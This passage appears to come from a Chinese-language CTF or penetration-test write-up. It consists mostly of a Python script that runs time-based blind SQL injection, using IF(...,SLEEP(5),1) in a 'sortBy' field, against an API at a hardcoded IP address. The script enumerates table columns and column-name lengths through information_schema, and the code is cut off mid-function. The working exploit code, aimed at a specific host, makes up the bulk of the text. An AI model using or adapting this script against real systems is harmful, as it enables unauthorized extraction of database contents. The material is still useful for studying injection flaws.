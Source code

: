 产品表里面没有重要的东西，是前端要显示的产品名称

符合id，名称，描述，价格

![image-20250904074311475](images/image-20250904074311475.png)

### 脚本3：查看 zhu_laoshi_tianrongxinkebiao 表结构

```
import requests
import time

def test_sqli(payload):
    url = "http://113.45.189.144:5000/api/developer_utils/sorted_query"
    data = {
        "query": "%",
        "sortBy": f"name,IF({payload},SLEEP(5),1)",
        "order": "asc"
    }
    start = time.time()
    try:
        r = requests.post(url, json=data)
        elapsed = time.time() - start
        return elapsed > 4.5
    except:
        return False

def get_column_count(table_name):
    """获取指定表的列数"""
    print(f"正在枚举{table_name}表的列数...")
    for count in range(1, 11):
        payload = f"(SELECT COUNT(*) FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='{table_name}')={count}"
        if test_sqli(payload):
            print(f"{table_name}表有 {count} 列")
            return count
    return 0

def get_column_name(table_name, column_index):
    """获取指定表的指定索引的列名"""
    print(f"正在枚举{table_name}表第{column_index+1}列的名称...")
    
    # 先获取列名长度
    length = 0
    for len_val in range(1, 51):
        payload = f"LENGTH((SELECT column_name FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='{table_name}' LIMIT {column_index},1))={len_val}"
        if test_sqli(payload):
            length = len_val
            print(f"第{column_index+1}列名长度为: {length}")
            break
```